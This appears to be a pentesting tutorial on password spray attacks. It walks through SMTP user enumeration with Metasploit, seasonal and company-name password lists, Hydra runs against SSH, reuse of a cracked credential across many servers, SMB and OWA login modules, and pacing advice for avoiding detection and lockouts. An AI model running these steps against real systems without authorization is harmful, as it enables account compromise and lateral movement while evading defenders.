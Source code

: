 


---

#  Password Spray Attack
A password spray attack involves testing a small set of common passwords against a large number of user accounts to avoid detection and account lockouts. It's often used to exploit misconfigured authentication systems like SSH, SMB, or SMTP. Tools like Hydra or Metasploit modules help automate these attacks, focusing on predictable or target-specific password patterns.
## **1. Overview**

- Purpose: Perform user enumeration and password spray attacks on target services.
- Tools Used:
    - **Metasploit**: `smtp_enum` auxiliary module.
    - **Hydra**: Brute-force tool for password spray attacks.
- Target Services: SMTP, SSH, SMB, and other credential-based systems.

---

## **2. User Enumeration with Metasploit**

### **2.1 Preparing the User List**

- Use statistically likely usernames:
    
    ```bash
    head -n 50 john.txt >> users.txt
    ```
    
    - **Source**: [Statistically Likely Usernames](https://github.com/insidetrust/statistically-likely-usernames)

### **2.2 Enumerating Users**

- Load the `smtp_enum` module in Metasploit:
    
    ```bash
    msf > use auxiliary/scanner/smtp/smtp_enum
    ```
    
- Configure the module:
    
    ```bash
    set RHOSTS <SMTP_SERVER_IP>
    set USER_FILE users.txt
    run
    ```
    
- Output: Identifies valid users (e.g., saves to `valid_users.txt`).

---

## **3. Password Spray Attack**

### **3.1 Creating a Password List**

- Use commonly predictable passwords:
    - Format: `Season[Year]` (e.g., `Spring2018`, `Fall2024`).
    - Target-related passwords: `CompanyName01`, `CompanyName02`, etc.
- Save to `passwords.txt`.

### **3.2 Executing the Attack (SSH Example)**

- Use **Hydra** to attack the SSH service:
    
    ```bash
    hydra -L users.txt -P passwords.txt ssh://<TARGET_IP>
    ```
    
- Example Output:
    - User: `david`
    - Password: `Spring2018`

### **3.3 Expanding Access**

- Check for password reuse across systems:
    
    ```bash
    hydra -l david -p Spring2018 -M ssh_servers.txt ssh
    ```
    
    - **`ssh_servers.txt`**: File containing target SSH servers (one per line).

---

## **4. Additional Targets**

- Other services for password spray attacks:
    - **SMB**: Use Metasploit’s `smb_login` module.
        
        ```bash
        use auxiliary/scanner/smb/smb_login
        ```
        
    - **OWA**: Test with `owa_login` module for Outlook Web Access.
        
        ```bash
        use auxiliary/scanner/http/owa_login
        ```
        

---

## **5. Best Practices and Cautions**

### **5.1 Avoid Detection**

- Limit attempts:
    - **Recommended**: 1-2 passwords per run.
    - **Wait Time**: Minimum 45 minutes between runs.
- Ensure tools don’t test blank passwords or extra variations.
    - Risk: Account lockouts or detection by security solutions.

### **5.2 Optimize Password Selection**

- Predictable Patterns:
    - `Password01` → `Password02`
    - `Spring2018` → `Summer2018`
- Use intelligence from the target environment.

---

## **6. Summary**

1. **User Enumeration**:
    - Gather usernames from likely sources and validate them using `smtp_enum`.
2. **Password Spray**:
    - Create a password list with common patterns and test against target services.
3. **Expand Access**:
    - Check for password reuse to compromise additional systems.
4. **Target Other Services**:
    - Extend attacks to SMB, OWA, or other authentication systems.

---

## **References**

- [Metasploit `smtp_enum` Module](https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum)
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Statistically Likely Usernames](https://github.com/insidetrust/statistically-likely-usernames)

---

